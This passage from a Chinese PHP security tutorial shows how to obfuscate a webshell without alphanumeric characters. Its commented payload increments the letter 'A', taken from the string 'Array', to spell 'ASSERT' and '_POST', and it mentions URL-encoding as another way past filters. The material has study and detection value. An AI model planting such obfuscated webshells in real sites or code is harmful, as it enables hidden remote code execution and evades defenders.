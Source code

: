 注意到这里"assert"和"_POST"都用的URL编码表示，如果直接以\x9e\x8c\x8c\x9a\x8d\x8b这种UTF-8字符表示，并不能识别出为UTF-8字符，而是会被识别为英文+数字的字符串。

## 0x03 自增与自减

这种方法主要就是利用自增自减。

```php
"A"++ ==> "B"
"B"++ ==> "C"
```

也就是说，如果我们能够得到"A"，那么我们就能通过自增自减，得到所有的字母。
 那么问题就转化为怎么得到一个字符"A"。在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为"Array"。再取这个字符串的第一个字母，就可以获得"A"。

```
<?php
$a = ''.[];
var_dump($a);
```

![image-20231019204525843](assets/image-20231019204525843.png)

故有payload:

```php
<?php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
```